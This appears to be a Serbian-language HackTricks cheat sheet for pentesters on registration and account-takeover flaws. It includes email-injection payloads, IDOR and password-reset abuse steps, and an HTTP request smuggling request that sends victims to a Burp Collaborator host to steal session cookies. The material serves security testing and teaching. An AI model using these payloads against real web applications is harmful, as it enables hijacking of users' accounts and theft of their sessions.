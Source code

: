 # Registration & Takeover Vulnerabilities

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Preuzimanje registracije

### Dupliranje registracije

* Pokušajte generisati koristeći postojeće korisničko ime
* Proverite variranje e-pošte:
* velika slova
* \+1@
* dodajte tačku u e-poštu
* posebni karakteri u imenu e-pošte (%00, %09, %20)
* Stavite crne karaktere posle e-pošte: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### Enumeracija korisničkog imena

Proverite da li možete saznati kada je korisničko ime već registrovano unutar aplikacije.

### Politika lozinke

Prilikom kreiranja korisnika proverite politiku lozinke (proverite da li možete koristiti slabe lozinke).\
U tom slučaju možete pokušati napasti lozinke metodom brute force.

### SQL Injection

[**Proverite ovu stranicu** ](sql-injection/#insert-statement)da biste naučili kako pokušati preuzeti naloge ili izvući informacije putem **SQL Injection**-a u registracionim formama.

### Preuzimanje Oauth-a

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML ranjivosti

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### Promena e-pošte

Kada se registrujete, pokušajte promeniti e-poštu i proverite da li se ova promena pravilno validira ili možete promeniti na proizvoljne e-pošte.

### Dodatne provere

* Proverite da li možete koristiti **privremene e-pošte**
* **Dugačka** **lozinka** (>200) dovodi do **DoS**-a
* **Proverite ograničenja brzine pri kreiranju naloga**
* Koristite username@**burp\_collab**.net i analizirajte **callback**

```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```

### IDOR na API parametrima <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Napadač se mora prijaviti sa svojim nalogom i otići na funkcionalnost **Promena lozinke**.
2. Pokrenite Burp Suite i presretnite zahtev.
3. Pošaljite ga na karticu "repeater" i izmenite parametre: ID korisnika/e-pošta\
   `powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Slab token za resetovanje lozinke <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Token za resetovanje lozinke treba da bude nasumično generisan i jedinstven svaki put.\
Pokušajte da utvrdite da li token ističe ili je uvek isti, u nekim slučajevima algoritam generisanja je slab i može se pogoditi. Sledeće promenljive mogu biti korišćene od strane algoritma.

* Vremenska oznaka
* ID korisnika
* E-pošta korisnika
* Ime i prezime
* Datum rođenja
* Kriptografija
* Samo brojevi
* Mala sekvencija tokena (karakteri između \[A-Z,a-z,0-9])
* Ponovna upotreba tokena
* Datum isteka tokena

### Otkrivanje tokena za resetovanje lozinke <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Pokrenite zahtev za resetovanje lozinke koristeći API/UI za određenu e-poštu, na primer: test@mail.com
2. Pregledajte odgovor servera i proverite da li postoji `resetToken`
3. Zatim koristite token u URL-u kao što je `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Resetovanje lozinke putem kolizije korisničkog imena <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registrujte se na sistemu sa korisničkim imenom identičnim korisničkom imenu žrtve, ali sa belinama ubačenim pre i/ili posle korisničkog imena, na primer: `"admin "`
2. Zatražite resetovanje lozinke sa zlonamernim korisničkim imenom.
3. Koristite token poslat na vašu e-poštu i resetujte lozinku žrtve.
4. Prijavite se na nalog žrtve sa novom lozinkom.

Platforma CTFd je bila ranjiva na ovaj napad.\
Vidi: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Preuzimanje naloga putem Cross Site Scripting-a <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Pronađite XSS unutar aplikacije ili poddomena ako su kolačići ograničeni na nadređenu domenu: `*.domain.com`
2. Otkrijte trenutni **kolačić sesije**
3. Autentifikujte se kao korisnik koristeći kolačić

### Preuzimanje naloga putem HTTP Request Smuggling-a <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Koristite **smuggler** da biste otkrili vrstu HTTP Request Smuggling-a (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Kreirajte zahtev koji će prebrisati `POST / HTTP/1.1` sa sledećim podacima:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` sa ciljem preusmeravanja žrtava na burpcollab i krađe njihovih kolačića\
3\. Konačan zahtev može izgledati ovako

```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```

Hackerone izveštaji o iskorišćavanju ove greške\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Preuzimanje naloga putem CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Kreirajte payload za CSRF, npr. "HTML formu sa automatskim slanjem za promenu lozinke"
2. Pošaljite payload

### Preuzimanje naloga putem JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token može se koristiti za autentifikaciju korisnika.

* Izmenite JWT sa drugim korisničkim ID-em / Email-om
* Proverite da li postoji slab potpis JWT-a

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## Reference

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Pogledajte [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
